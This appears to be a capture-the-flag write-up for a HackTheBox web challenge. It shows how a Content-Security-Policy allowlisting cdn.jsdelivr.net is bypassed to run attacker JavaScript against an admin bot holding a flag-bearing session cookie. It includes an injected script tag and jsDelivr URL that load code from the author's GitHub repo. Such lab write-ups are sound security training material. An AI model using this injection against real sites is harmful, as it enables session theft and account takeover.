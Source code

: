 # Cursed Secret Party

We start on this web page:

<figure><img src="../../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We capture the request and see that it looks like this:

<figure><img src="../../../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

In the response we can see a CSP, so we head to [https://csp-evaluator.withgoogle.com/](https://csp-evaluator.withgoogle.com/) and look to see if the CSP is safe:

<figure><img src="../../../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

the&#x20;

script-src is not safe according to the website&#x20;

```
Host allowlists can frequently be bypassed. Consider using 'strict-dynamic' in combination with CSP nonces or hashes.
```

on top of that The cdn.jsdelivr.net host is whitelisted to load JavaScript files. JSDeliver is a free CDN that allows for loading any JavaScript files hosted in NPM or GitHub

in the bot.js file i find the following line to show the flag:&#x20;

```
	let token = await JWTHelper.sign({ username: 'admin', user_role: 'admin', flag: flag });
```

```
const visit = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();

		let token = await JWTHelper.sign({ username: 'admin', user_role: 'admin', flag: flag });
		await page.setCookie({
			name: 'session',
			value: token,
			domain: '127.0.0.1:1337'
		});

		await page.goto('http://127.0.0.1:1337/admin', {
			waitUntil: 'networkidle2',
			timeout: 5000
		});

		await page.goto('http://127.0.0.1:1337/admin/delete_all', {
			waitUntil: 'networkidle2',
			timeout: 5000
		});

		setTimeout(() => {
			browser.close();
		}, 5000);
```

```
<script src="https://github.com/felixbillieres/HTBjsdelivryexploit/blob/main/test.js"> </script>
```

the syntax to create a jsDeliver file is [https://cdn.jsdelivr.net/gh/\<USERNAME>/\<REPO>@\<BRANCH>/\<PATH\_TO\_FILE>\
](https://cdn.jsdelivr.net/gh/%3CUSERNAME%3E/%3CREPO%3E@%3CBRANCH%3E/%3CPATH_TO_FILE%3E) so i adapt it to my repo:

[https://cdn.jsdelivr.net/gh/felixbillieres/HTBjsdelivryexploit@main/test.js](https://cdn.jsdelivr.net/gh/felixbillieres/HTBjsdelivryexploit@main/test.js)-- -

<figure><img src="../../../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
